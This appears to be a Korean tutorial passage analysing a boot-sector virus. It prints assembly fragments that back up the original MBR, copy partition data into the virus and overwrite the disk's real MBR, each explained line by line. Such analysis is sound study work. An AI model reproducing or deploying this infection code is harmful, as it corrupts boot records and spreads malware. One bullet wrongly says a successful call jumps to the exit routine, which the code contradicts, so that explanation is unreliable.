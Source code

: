 **⭐ STEP 22**  
정상 부팅을 위해 원본MBR을 저장해두어야 하는데 디스크마다 다른 영역에 저장을 한다. 잘 사용하지 않는 공간이며, 360K FDD는 CHS(0,1,3), 그 외 FDD는 CHS(0,1,E)에 덮어쓴다고 지정한다.
``` asm
infectitnow:
		mov     ax,301h
		mov     dh,1
		mov     cl,3                    ; CHS(0,1,3)
		cmp     byte ptr [bx+15h],0FDh
		je      is360Kdisk     ; 360K 프로피디스크면 is360disk 점프
		mov     cl,0Eh                  ; CHS(0,1,E)
```
* ax에 301h를 넣어 3번 함수를 지정하고, 1개의 섹터만큼 쓰겠다고 지정
* dh에 1을 넣어 1번 헤드를 가리킨다.
* cl에 3을 넣어 3번 섹터를 가리킨다.
* 디스크 정보가 360K 플로피 디스크인지 비교
* 360K 플로피디스크면 is360Kdisk로 분기
* cl에 0Eh를 넣어 0Eh번 섹터를 가리킨다.

**⭐ STEP 23**  
지정한 디스크 공간에 원본 MBR을 백업한다. 설정한 여유공간의 섹터 번호가 firstsector가 된다
``` asm
is360Kdisk:
		mov     firstsector,cx   ; 디스크 정보 저장
		pushf
		call    oldint13h  ; 디스크에 원본 MBR 저장
		jc      quitinfect  ; 실패하면 quitinfect로 점프(종료)
```
* firstsector에 cx에 담긴 섹터 번호를 저장한다.
* 플래그를 백업한다
* 원본 인터럽트 13의 3번 함수를 호출해서 디스크의 여분 공간에 원본 MBR을 저장한다.
* 성공적으로 수행했다면 quitinfect로 분기하여 종료한다.

**⭐ STEP 24**  
백업이 되었으니, 바이러스를 옮겨야 하는데 바이러스를 옮겨서 정상적으로 부팅시키기 위해 바이러스 코드 뒤의 파티션 정보를 설정해주어야 한다. 다음 코드는 원본 MBR의 파티션 정보를 바이러스로 복사하는 과정이다.
``` asm
is360Kdisk:
			...
		mov     si,200h+offset partitioninfo
		mov     di,offset partitioninfo
		mov     cx,21h
		cld
		rep     movsw          ; 파티션 정보 복사(word단위)
```
* si에 여분공간에 있는 정상 MBR의 파티션 정보 오프셋을 넣는다
* di에 여분공간에 있는 바이러스의 파티션 정보 오프셋을 넣는다
* cx에 21h를 넣어 21h번 반복하도록 설정한다
* cld를 통해  Direction 플래그를 초기화한다.(인덱스 레지스터 설정 = 증가)
* 여분공간에서 원본 MBR의 파티션 정보를 바이러스의 파티션 정보에 덮어씌운다.

**⭐ STEP 25**  
완성된 바이러스 MBR을 실제 MBR에 덮어쓰는 과정이다.
``` asm
is360Kdisk:
			...
		mov     ax,301h
		xor     bx,bx
		mov     cx,1
		xor     dx,dx
		pushf
		call    oldint13h    ; 9F80:0의 데이터를 CHS(0,0,1)에 저장
```
* ax에 301h를 넣어 3번 함수를 지정하고, 1개의 섹터만큼 쓰기를 지정한다.
* bx를 초기화하여 오프셋 0을 가리키도록 한다.
* cx에 1을 넣어 실린더 0번을, 섹터 1번을 가리킨다